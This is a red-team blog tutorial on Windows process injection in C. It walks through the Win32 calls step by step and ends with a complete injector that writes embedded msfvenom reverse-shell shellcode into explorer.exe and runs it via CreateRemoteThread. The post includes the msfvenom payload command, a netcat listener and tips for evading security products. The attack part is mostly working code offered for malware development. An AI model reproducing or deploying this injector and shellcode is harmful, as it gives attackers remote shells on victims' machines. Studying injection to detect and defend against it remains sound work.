

# Basic Process Injection with C


## Introduction

Greetings, fellow red teamers and cybersecurity enthusiasts! Today, I'm thrilled to write about one well known but still utilized technique - process injection. This malware development technique is revered by both red team operators and adversaries alike for its potency and versatility. As practitioners of the art of intrusion, we understand the pivotal role that process injection plays in our arsenal of tactics, techniques, and procedures (TTPs). 

I am a huge fan of doing things as custom as possible, this way you can understand in details what is going on under the hood, instead of blindly trusting your tools to not get detected. While process injection / migration is integrated in various C2 frameworks out there, the raw implementation between them may differ, thus, the detection as well. 

Let me be clear, I do not say to not use the utilities from your favorite C2 frameworks, but I believe that the more you know how things work, the more you can get out of them.

!!!
Process Injection is already implemented in my private ShadowBurn packer. By supporting my work on [Patreon](https://www.patreon.com/Lsecqt) you get access to it as well as other hidden gems.
!!!

## Basic Windows Internals

When talking about process injection, I will address the Windows environment since most maldev tools and techniques are designed to target Windows OS. I am sure that there can be Linux implementations for process injection, if you know and want to share a cool project, feel free to do it in the [Red Teaming Army Discord server](https://discord.gg/KYAAKTtau8).

In order to understand the injection technique, we must first define some basic building blocks for the Windows OS, right?

!!!
I know that many of this things can be well known to a lot of you, so you can use the right pane to navigate throughout this blog-post. Hope you learn something new!
!!!

### Processes

At its core, a process can be defined as an instance of a program that is being executed. When you start a program in Windows, the operating system allocates resources such as memory, CPU time, and I/O devices to execute that program. This allocation is done by creating a process for the program. The process contains all the necessary information for the program's execution, including its code, data, and execution state.

Processes in Windows operate in a multitasking environment, meaning that multiple processes can run concurrently, sharing the system's resources efficiently. Generally, they can be categorized into several types based on their characteristics and how they're created:

1. User Processes: These are initiated by users and typically include applications such as web browsers, word processors, and media players. User processes run in user mode, which provides a layer of protection and isolation from system-level operations.
    
2. System Processes: System processes, also known as kernel processes, are initiated and managed by the Windows kernel. They perform essential system functions such as memory management, I/O operations, and device drivers. System processes run in kernel mode, allowing them to access system resources directly.
    
3. Service Processes: Services are background processes that run without user intervention, providing various system functionalities such as network communication, printing, and system monitoring. These processes often start automatically when the system boots up and continue running in the background.
    
4. Child Processes: A process can create additional processes known as child processes. These processes inherit certain attributes from their parent process and can perform tasks independently. Child processes are commonly used in multitasking environments to execute parallel tasks or subprocesses.

A cool program to analyze running processes is [Process Hacker 2](https://processhacker.sourceforge.io/downloads.php).


### Threads

A thread can be defined as the smallest unit of execution within a process. Unlike processes, which are independent entities with their own memory space, threads exist within processes and share the same memory space. Threads enable concurrent execution of multiple tasks within a single process, allowing for parallelism and efficient utilization of system resources, such as CPU cores.

Each thread within a process has its own program counter, stack, and execution state, but they can access shared data and resources within the process. This shared memory model facilitates communication and coordination between threads, enabling them to collaborate on complex tasks.

Threads can execute independently or cooperatively, depending on the programming paradigm and synchronization mechanisms employed. Concurrent execution of threads can lead to improved performance, responsiveness, and resource utilization, especially in scenarios involving parallelizable tasks, such as multimedia processing, web servers, and scientific simulations.

Threads can be categorized into two main types based on their association with the operating system or programming language:

1. Kernel Threads: Kernel threads are managed and scheduled by the operating system's kernel. These threads have full support for multitasking and can execute in parallel on multiple CPU cores. Kernel threads provide a low-level abstraction for concurrent execution and are typically used in system-level programming and operating system development.
    
2. User Threads: User threads are implemented and managed at the application level, typically using threading libraries or programming language constructs. Unlike kernel threads, user threads are not directly supported by the operating system and rely on the underlying runtime environment or threading library for scheduling and execution. User threads offer a higher-level abstraction for concurrency and are commonly used in application development, including web servers, database systems, and multimedia applications.
    
Again, threads can be analyzed with the same [Process Hacker 2](https://processhacker.sourceforge.io/downloads.php) software after choosing a process of your choice.


## Anatomy of Process Injection

So far it should be around clear on what is process and a thread. In a nutshell, process is the car while the thread is you pushing the gas pedal. The threads are doing the actual work, executing code which resembles into CPU instructions later on. Usually, when we create a simple malware, like the shellcode runner from the previous [blogpost](https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer---a-stealthy-maneuver-in-evasion-tactics/), we create a new process, allocate the appropriate memory, write the malicious payload to it in the form of shellcode and then point the current thread into the address of the allocated memory, that is what Direct Pointer (DP) is all about. While this technique is proven to be evasive, it is impossible to perform it over remote process, because we can't really control the main thread from distance.

Even though DP is not an option here, we still have plenty of. In a nutshell we need to follow the theory behind shellcode execution, but just apply it for the remote process, which in this case will look something like this:



### Step 1 - Enumerate processes and target one

We cannot build malware from the victim system (at least its very hard and not effective), so the first step would be to design the malware to automatically search and target specific process, like `explorer.exe`. Usually we are going to need the `PID` of the process, but since this value is arbitrary, we would need the help of some Win32 APIs.

In my [Offensive CPP Project](https://github.com/lsecqt/OffensiveCpp), I already stored some process enumeration snippets, let's modify and use [one of them](https://github.com/lsecqt/OffensiveCpp/blob/main/Enumeration/Processes/CreateToolhelp32Snapshot.cpp).

```C
BOOL GetProcessHandle(IN LPWSTR processName, OUT HANDLE hProcess, OUT DWORD* pID)
{
	DWORD pid = 0;
	HANDLE hP = NULL;
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		printf("[ERROR] Invalid HANDLE to process snapshots [%d]\n", GetLastError());
		return FALSE;
	}
	PROCESSENTRY32 pe;
	pe.dwSize = sizeof(pe);

	if (!Process32First(hSnapshot, &pe))
	{
		printf("[ERROR] Could not enumerate processes [%d]\n", GetLastError());
		return FALSE;
	}
	
	do {
		if (0 == _wcsicmp(processName, pe.szExeFile))
		{
			pid = pe.th32ProcessID;
			printf("[!] Trying to open handle on %ls, on pid %d\n", processName, pid);

			hP = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, pid);
			if (hP == NULL)
			{
				printf("[X] Could not open handle on %d, continuing\n", pid);
			}
			else
			{
				printf("[+] Successfully got handle on %d\n", pid);
				*pID = pid;
				hProcess = hP;
				return TRUE;
			}
		}
	} while (Process32Next(hSnapshot, &pe));

	CloseHandle(hSnapshot);
}
```

This snippet utilizes the [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) API to enumerate all processes, loop through every single one of them until a valid handle is opened. When so, the `TRUE` is returned along with the PID of the process and the valid handle to it.

Now you may ask:
`Why are you utilizing the OpenProcess() API call each time you loop, can't you just compare by valid PID?`

I can, but if I target process like `svchost.exe`, the logic breaks. `svchost.exe` is multi-layered process, it may have more than 20+ instances depending on the system. Usually, the first ones are reserved for the `SYSTEM` user or for any of the service users. If that is the case, simply returning the PID does not work for us, because we would not be able to open the process either way. The code snippet above tries to open handle to the process, and return only if a handle is valid. Which means that if the process is multi-layered like `svchost.exe`, it will try to open every instance of this process until it gets a valid handle. I know that this is not the best code but it works!

### Step 2 - Allocate memory to the remote process

Having a valid handle to a process mean that we can now operate with the process itself. This include allocating / writing / reading remote memory, creating remote threads, changing remote memory protections settings and more. In order to keep things simple we will be using Win32 APIs for that.

Since we now have a valid handle, we need to to allocate remote memory. Usually in Windows, the Win32 APIs that are designed for remote process operations are marked with `Ex`, such as [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex). This API is relatively easy to use, following its signature is straight forward.

```C
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The only thing we lack so far is the arbitrary `dwSize` number, this is the size of bytes for our payload to be execute from the remote process. Let's generate one with `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=9443 -f c
```

Make sure to pay attention to `Payload Size`, in that case it is 460.


!!!
Keep in mind that if the payload is generated from any C2 framework, the chances are that it will be in MegaBytes (MB), it will be easier to stage it instead of embedding it in the dropper itself.
!!!

Since we have the payload now, we can just paste the C output from `msfvenom` into our code, and the call `VirtualAllocEx`:

```C
HANDLE pAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

This will use the `hProcess` handle acquired from the previous function, and allocate 460 (in this case) bytes of memory in the remote process. The memory allocation pages are committed and reserved (pretty much ready for work), and the memory protection is set to read and write only.

### Step 3 - Writing the payload to the allocated memory

Allocating memory is different than writing to it. For instance, after we allocated memory with `VirtualAllocEx` API call, 460 bytes are reserved but empty. Now we need to write our payload inside. Again, calling the Win32 API [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) should be simple after following its signature:

```C
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

Which resolves into:

```C
WriteProcessMemory(hProcess, pAddr, buf, sizeof(buf), NULL);
```

This syntax just writes the contents of the `buf` variable inside the address allocated from the previous step. Keep an eye on the size, if you mismatch it your payload will not gonna work.

### Step 4 - Changing memory protections

Now we need to change the memory protection settings from read and write, to read and execute. Without the executive primitives, the written payload to the memory will never be executed. We do this because allocating memory directly with executive primitives is huge IOC and many vendors will catch it right off the bat. While there are many approaches to be more evasive on that, like finding a process with executable memory by default, I want to keep things simple.

Here we can use the [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) Win32 API:
```C
BOOL VirtualProtectEx(
  [in]  HANDLE hProcess,
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

!!!
It is also recommended to add sleep timeouts before and / or after changing the memory protection settings. This might help with the evasion part.
!!!

Calling this API can sound complex at first, but trust me, it is not. First we need to add a new `DWORD` variable, it will hold the previous protection settings if we need them. The last parameter can also be `NULL`, but it's better to save your previous settings. Then, invoking the API is as simple as:

```C
VirtualProtectEx(hProcess, pAddr, sizeof(buf), PAGE_EXECUTE_READ, &oldProtect);
```

Again, we are modifying the memory protection settings of 460 bytes from the address of the allocated memory (the one from `VirtualAllocEx` call) with execute and read permissions. Keep note that we do not use execute, read and write simultaneously. 

### Step 5 - Executing the payload

This is done via creating a new thread. While this is extremely suspicious behavior, I think it is fundamental to know it. If you want to dig deeper, there are more advanced techniques like [Threadless Injection](https://www.youtube.com/watch?v=z8GIjk0rfbI) which perform process injection without manually creating new threads. I implemented the Threadless Injection in C language, using Win32 APIs, so if you are interested, take a look: https://github.com/lsecqt/ThreadlessInject-C

!!!
Threadless Inject will be soon integrated to my ShadowBurn packer. By supporting my work on [Patreon](https://www.patreon.com/Lsecqt), you get access to it as well as the ability to request video / blogs on demand. Appreciate your support there!
!!!

As mentioned before, we cannot simply alter the main thread as we did with Direct Pointer execution. In order to create a new thread, we need [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) Win32 API.

```C
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Do not be overwhelmed by the high count of parameters, the calling implementation is as simple as:

```C
CreateRemoteThread(hProcess, NULL, sizeof(buf), pAddr, NULL, NULL, NULL);
```

Here, most of the parameters are `NULL`, because the Windows OS automatically handles them. Additionally, we do not need any parameters for the written payload, the only thing we really need is the handle to the process, the size and the address again.

### Step 6 - Assembling the pieces

Before doing anything, make sure to start your listener with:

```bash
nc -nvlp 9443
```

After combining the pieces, the code looks something like this:

```C
#include <Windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD GetProcessHandle(IN LPWSTR processName, OUT HANDLE hProcess, OUT DWORD* pID);

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x24\xe3\xc0\xa8\x00\x6f"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

BOOL GetProcessHandle(IN LPWSTR processName, OUT HANDLE* hProcess, OUT DWORD* pID)
{
	DWORD pid = 0;
	HANDLE hP = NULL;
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		printf("[ERROR] Invalid HANDLE to process snapshots [%d]\n", GetLastError());
		return FALSE;
	}
	PROCESSENTRY32 pe;
	pe.dwSize = sizeof(pe);

	if (!Process32First(hSnapshot, &pe))
	{
		printf("[ERROR] Could not enumerate processes [%d]\n", GetLastError());
		return FALSE;
	}
	
	do {
		if (0 == _wcsicmp(processName, pe.szExeFile))
		{
			pid = pe.th32ProcessID;
			printf("[!] Trying to open handle on %ls, on pid %d\n", processName, pid);

			hP = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, pid);
			if (hP == NULL)
			{
				printf("[X] Could not open handle on %d, continuing\n", pid);
			}
			else
			{
				printf("[+] Successfully got handle on %d\n", pid);
				*pID = pid;
				*hProcess = hP;
				return TRUE;
			}
		}
	} while (Process32Next(hSnapshot, &pe));

	CloseHandle(hSnapshot);
}


int main()
{
	HANDLE hProcess = NULL;
	DWORD pID = 0;
	LPWSTR processName = L"explorer.exe";
	DWORD oldProtect = 0;
	if (GetProcessHandle(processName, &hProcess, &pID) == FALSE)
	{
		printf("[ERROR] Could not obtain handle [%d]\n", GetLastError());
		return 99;
	}
	printf("[+] The PID of %ls is %d\n", processName, pID);

	HANDLE pAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddr == NULL)
	{
		printf("[ERROR] Could not allocate remote memory [%d]\n", GetLastError());
		return 100;
	}
	printf("[+] Successfully allocated memory at %p\n", pAddr);
	if (WriteProcessMemory(hProcess, pAddr, buf, sizeof(buf), NULL) == 0)
	{
		printf("[ERROR] Could not write to remote memory [%d]\n", GetLastError());
		return 101;
	}
	printf("[+] Successfully written payload to memory\n");
	if (VirtualProtectEx(hProcess, pAddr, sizeof(buf), PAGE_EXECUTE_READ, &oldProtect) == 0)
	{
		printf("[ERROR] Could not change the memory protection [%d]\n", GetLastError());
		return 102;
	}
	printf("[+] Successfully changed the memory protection settings to PAGE_EXECUTE_READ\n");
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, sizeof(buf), pAddr, NULL, NULL, NULL);
	if (hThread == NULL)
	{
		printf("[ERROR] Could not create new thread [%d]\n", GetLastError());
		return 102;
	}
	printf("[+] Successfully created a thread, check your listener!\n");
}
```

After execution, if everything went smooth, we should receive the incoming reverse shell:


## Conclusion

With this, you are now free to customize as much as you want. In fact, this is the most beautiful thing about malware development, there is no limit if there is enough creativity!

I am aware that the technique showcased in this blog is not advanced at all, but I hope it gives you a nice foundation into process injection.

I am deeply appreciating any of your feedback. Also, If you have a nice video / blog topic, you can ask for it in the [Red Teaming Army Discord Channel](https://discord.gg/KYAAKTtau8).